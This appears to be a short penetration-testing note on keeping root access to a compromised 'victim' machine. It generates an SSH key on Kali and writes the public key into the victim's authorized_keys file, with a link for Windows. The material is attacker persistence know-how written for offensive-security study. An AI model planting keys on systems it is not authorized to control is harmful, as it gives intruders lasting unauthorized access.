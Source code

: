 ```yaml
---
description: >-
  with root access, we can create authorized_keys file on victim /root/.ssh for
  persisting root access from kali
---
```


# persisting ssh login with ssh-keygen

{% code overflow="wrap" %}
```
kali:
ssh-keygen
cat ~/.ssh/id_rsa.pub

victim:
(mkdir /user/.ssh)
echo "{id_rsa.pub}" > /user/.ssh/authorized_keys

ssh user@victim

(user <-> root)
```
{% endcode %}

#### windows (admin ps, need know password)

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh_keymanagement" %}
